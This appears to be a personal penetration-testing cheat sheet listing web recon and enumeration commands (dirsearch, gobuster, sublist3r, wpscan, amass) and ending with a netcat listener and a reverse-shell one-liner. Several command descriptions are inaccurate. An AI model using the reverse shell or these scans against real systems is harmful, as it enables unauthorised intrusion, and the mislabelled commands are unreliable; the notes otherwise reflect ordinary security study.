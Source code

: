 All commands and links i need to sort.  


Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  

curl -u http://website - display website header and info  

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  

sublist3r -d http://website - enumerates subdirectories  

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

## Online Tools ##
https://gchq.github.io/CyberChef/  -  

nc -lvp 1337  
nc -e /bon/sh ip 1337   
